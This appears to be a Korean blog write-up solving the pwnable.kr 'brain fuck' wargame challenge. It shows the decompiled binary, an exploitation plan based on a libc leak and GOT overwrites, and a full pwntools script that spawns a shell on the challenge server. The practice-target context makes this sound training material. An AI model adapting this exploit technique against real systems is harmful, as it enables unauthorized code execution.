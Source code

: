 ```yaml
---
layout: post
date: 2023-01-15
title: pwnable.kr brain fuck write-up
tags: [pwnable, ]
categories: [wargame, pwnable.kr, ]
---
```


## 소스코드 분석
---
``` c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t i; // [esp+28h] [ebp-40Ch]
  char input[1024]; // [esp+2Ch] [ebp-408h] BYREF
  unsigned int v6; // [esp+42Ch] [ebp-8h]

  v6 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  p = (int)&tape;
  puts("welcome to brainfuck testing system!!");
  puts("type some brainfuck instructions except [ ]");
  memset(input, 0, sizeof(input));
  fgets(input, 1024, stdin);
  for ( i = 0; i < strlen(input); ++i )
    do_brainfuck(input[i]);
  return 0;
}
```

``` c
int __cdecl do_brainfuck(char input)
{
  int result; // eax
  _BYTE *v2; // ebx

  result = input - 43;
  switch ( input )
  {
    case '+':
      result = p;
      ++*(_BYTE *)p;
      break;
    case ',':
      v2 = (_BYTE *)p;
      result = getchar();
      *v2 = result;
      break;
    case '-':
      result = p;
      --*(_BYTE *)p;
      break;
    case '.':
      result = putchar(*(char *)p);
      break;
    case '<':
      result = --p;
      break;
    case '>':
      result = ++p;
      break;
    case '[':
      result = puts("[ and ] not supported.");
      break;
    default:
      return result;
  }
  return result;
}
```

brainfuck 언어에서 `[`, `]` 명령어가 제외된 것을 확인할 수 있다.<br>
바이너리 안에서 포인터 값을 조작하며 쉘을 획득할 수 있을 것 같다.

명령어에 대한 설명은 다음과 같다.

| 문자 | 의미 |
|:----|:----|
| `>` | 포인터 증가 |
| `<` | 포인터 감소 |
| `+` | 포인터가 가리키는 바이트의 값 증가 |
| `-` | 포인터가 가리키는 바이트의 값 감소 |
| `.` | 포인터가 가리키는 바이트의 값을 ASCII 문자로 출력 |
| `,` | 포인터가 가리키는 바이트에 입력받은 문자의 ASCII 값을 넣음 |
| `[` | 포인터가 가리키는 바이트의 값이 0이면 짝이 되는 뒤쪽의 `]`로 이동 |
| `]` | 포인터가 가리키는 바이트의 값이 0이 아니면 짝이 되는 앞쪽의 `[`로 이동 |

_출처: [위키백과](https://ko.wikipedia.org/wiki/Brainfuck)_

## 익스플로잇
---

1024 바이트만 입력할 수 있기 때문에 포인터 값을 조작할 수 있는 범위내에서 조작해야 한다.

### 시나리오
1. `system` 함수의 실제 주소를 구한다.
2. `fgets` -> `system` got overwrite
3. `memset` -> `gets` got overwrite
4. `putchar` -> `main` got overwrite
5. `putchar`를 통해 `main` 함수를 호출하여 쉘을 획득한다.

`getchar` 함수로 하위 바이트를 조작하며 overwrite를 진행하였다.

`p`가 가리키는 값을 `p`로 변경하면 `getchar` 함수를 통해 하위 바이트를 쉽게 조작할 수 있다.

``` python
#bf.py
from pwn import *
# context.log_level = 'debug'

# p = process('./bf')
p = remote('pwnable.kr', 9001)
e = ELF('./bf')
libc = e.libc

payload = '<' * 0x20
payload += ',.>.>.>.'
payload += '>' * 0x65
payload += ',,>,>,>,'
payload += '>' * 0x6d
payload += ',,>,>,>,'
payload += '>' * 0x51
payload += ',,>,>,>,'
payload += '.'

p.sendlineafter(']\n', payload)

p.send('\x18')
puts_addr = u32(p.recvuntil('\xf7'))
libc_base = puts_addr - libc.sym['puts']
system_addr = libc_base + libc.sym['system']
gets_addr = libc_base + libc.sym['gets']

log.info('puts: ' + hex(puts_addr))
log.info('libc_base: ' + hex(libc_base))

p.send('\x10')
p.send(p32(system_addr))

p.send('\x2c')
p.send(p32(gets_addr))

p.send('\x30')
p.send(p32(e.sym['main']))

p.sendlineafter(']\n', '/bin/sh')

p.interactive()
```

![1.png](/assets/img/2023-01-15/1.png)

쉘을 획득했다.

